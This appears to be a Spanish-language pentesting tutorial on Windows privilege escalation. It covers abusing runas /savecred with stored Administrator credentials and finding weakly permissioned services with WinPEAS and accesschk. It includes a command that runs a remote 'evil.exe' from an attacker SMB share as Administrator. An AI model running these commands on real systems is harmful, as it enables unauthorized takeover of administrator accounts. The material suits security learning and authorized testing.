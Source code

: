 Comandos como runas (run as) nos permiten ejecutar algo como un cierto usuario, tiene un parametro **/savecred** que si le indicamos el usuario que tiene las claves almacenadas, no permite ejecutar cosas como ese usuario.

Vimos que las credenciales del usuario administrador estan almacenadas, podemos aprovecharnos de esto:

```bash
runas /savecred /user:WORKGROUP\Administrator "\\10.XXX.XXX.XXX\SHARE\evil.exe"

runas /savecred /user:Administrator "cmd.exe /k whoami"
```

## Modifiable Services

Cuando se instala un programa, se agregan nuevas subclaves al registro que contiene valores específicos vinculados a ese programa, es decir, su ubicación, versión, tipo de servicio y ruta ejecutable.

Estas claves son modificables únicamente por los administradores. Cualquier configuración incorrecta en los permisos de la ACL del registro puede permitir que un usuario estándar (con privilegios bajos) modifique la configuración de un servicio.

Es posible que por mala configuracion nosotros podamos modificar un servicio (WriteData o CreateFiles). WinPEAS nos puede indicar que servicios podriamos modificar:

```bash
daclsvc(DACL Service)["C:\Program Files\DACL Service\daclservice.exe"] - Manual - Stopped
YOU CAN MODIFY THIS SERVICE: WriteData/CreateFiles
```

Puedes comprobar los permisos sobre un servicio con:

```bash
accesschk.exe -ucqv <Service_Name>
```

Puede descargar el accesschk.exe de este link [accesschk.exe](https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk)

Se recomienda comprobar si los "Usuarios autenticados" pueden modificar algún servicio:

```bash
.\accesschk.exe /accepteula -uwcqv <nombre de usuario actualde windows> <servicio>

accesschk.exe -uwcqv "Authenticated Users" * /accepteula

accesschk.exe -uwcqv %USERNAME% * /accepteula

accesschk.exe -uwcqv "BUILTIN\Users" * /accepteula 2>nul

accesschk.exe -uwcqv "Todos" * /accepteula ::Spanish version
```

En este ejemplo el servicio es **daclsvc**.

si esto nos muestra **SERVICE_CHANGE_CONFIG** es que podemos modificar parametros del servicio, si muestra **SERVICE_START** es que podemos iniciar el servicio y si muestra **SERVICE_STOP** es que lo podemos parar.
